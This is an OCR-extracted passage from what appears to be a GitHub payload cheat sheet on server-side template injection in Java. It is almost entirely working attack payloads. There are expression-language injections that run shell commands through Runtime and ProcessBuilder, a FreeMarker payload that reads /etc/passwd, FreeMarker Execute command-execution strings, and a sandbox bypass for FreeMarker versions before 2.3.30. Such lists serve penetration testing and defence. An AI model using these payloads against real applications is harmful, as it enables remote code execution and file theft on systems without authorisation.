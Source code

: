 ```java
#{session.setAttribute("rtc","".getClass().forName("java.lang.Runtime").getDeclaredConstructors()[0])}

#{session.getAttribute("rtc").setAccessible(true)}

#{session.getAttribute("rtc").getRuntime().exec("/bin/bash -c id")}
```

```java
${request.setAttribute("c","".getClass().forName("java.util.ArrayList").newInstance())}

${request.getAttribute("c").add("cmd.exe")}

${request.getAttribute("c").add("/k")}

${request.getAttribute("c").add("whoami /priv")}

${request.setAttribute("a","".getClass().forName("java.lang.ProcessBuilder").getDeclaredConstructors()[0].newInstance(request.getAttribute("c")).start())}

${request.getAttribute("a")}
```

#### FreeMarker

Read file

```java
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```

Command execution

```java
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}

[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}

${"freemarker.template.utility.Execute"?new()("id")}
```

##### FreeMarker - Sandbox Bypass (<2.3.30)

```java
<#assign classloader=article.class.protectionDomain.classLoader>

<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>

<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>

<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>

${dwf.newInstance(ec,null)("id")}
```

